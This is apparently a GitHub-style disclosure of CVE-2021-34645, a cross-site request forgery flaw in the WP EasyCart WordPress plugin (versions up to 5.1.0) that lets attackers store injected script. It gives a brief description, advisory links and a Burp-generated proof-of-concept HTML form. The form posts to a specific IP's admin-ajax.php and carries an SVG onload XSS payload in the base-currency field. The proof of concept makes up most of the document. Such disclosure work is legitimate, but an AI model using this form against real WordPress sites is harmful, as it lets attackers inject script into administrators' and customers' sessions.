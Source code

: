 <h2>CVE-2021-34645</h2>

The Shopping Cart & eCommerce Store WordPress plugin is vulnerable to Cross-Site Request Forgery via the save_currency_settings function found in the ~/admin/inc/wp_easycart_admin_initial_setup.php file which allows attackers to inject arbitrary web scripts, in versions up to and including 5.1.0.

Hyperlink:<br>
`https://plugins.trac.wordpress.org/browser/wp-easycart/trunk/admin/inc/wp_easycart_admin_initial_setup.php?rev=2463792#L240`
`https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34645`

POC:<br>
				<html>
					<!-- CSRF PoC - generated by Burp Suite Professional -->
					<body>
					<form action="http://47.117.124.71:49158/wp-admin/admin-ajax.php" method="POST">
						<input type="hidden" name="action" value="ec_admin_ajax_save_currency_options" />
						<input type="hidden" name="ec_option_base_currency" value="USD&quot;><svg/onload=alert(/xss/)>" />
						<input type="hidden" name="ec_option_show_currency_code" value="0" />
						<input type="hidden" name="ec_option_currency" value="$" />
						<input type="hidden" name="ec_option_currency_symbol_location" value="1" />
						<input type="hidden" name="ec_option_currency_negative_location" value="1" />
						<input type="hidden" name="ec_option_currency_decimal_symbol" value="." />
						<input type="hidden" name="ec_option_currency_decimal_places" value="2" />
						<input type="hidden" name="ec_option_currency_thousands_seperator" value="," />
						<input type="hidden" name="ec_option_exchange_rates" value="EUR=.73,GBP=.6,JPY=101.9" />
						<input type="submit" value="Submit request" />
					</form>
					</body>
				</html>

